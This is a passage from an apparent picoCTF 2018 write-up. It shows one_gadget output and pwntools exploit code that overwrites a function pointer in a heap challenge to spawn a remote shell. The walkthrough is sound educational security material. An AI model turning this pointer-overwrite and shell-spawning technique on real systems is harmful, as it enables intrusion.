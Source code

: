 ```
$ one_gadget libc.so.6
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

As you can see, we now have four addresses to choose from. But how can we call this address? Well, we can do something similar to stage one, but overwrite the `use_sword` pointer instead. Then, when we call `equip_sword`, the program will jump to the intended offset giving us the shell. Here is what this looks like in code:

```python
one_gadget = 0xf1147

target = libc_base+one_gadget

print hex(libc_base)
print hex(target)

forgeSword()
hardenSword(2, 'a'*16+p64(target))
destroySword(2)

forgeSword()
forgeSword()

useSword(2)

sh.interactive()
```

Putting the two parts together, we now have a functional exploit that will give us a shell:

```python
from pwn import *

context.log_level = 'debug'

sh = remote('2018shell2.picoctf.com', 32987)
# sh = process('./test')

read_GOT = 0x602040
read_offset = 0x004007b0
one_gadget = 0xf1147

def forgeSword():
  sh.sendlineafter('Quit.\n', '1')

def hardenSword(i, s):
  sh.sendlineafter('Quit.\n', '5')
  sh.sendlineafter('?\n', str(i))
  sh.sendlineafter('?\n', '32')
  sh.sendlineafter('.\n', s)
```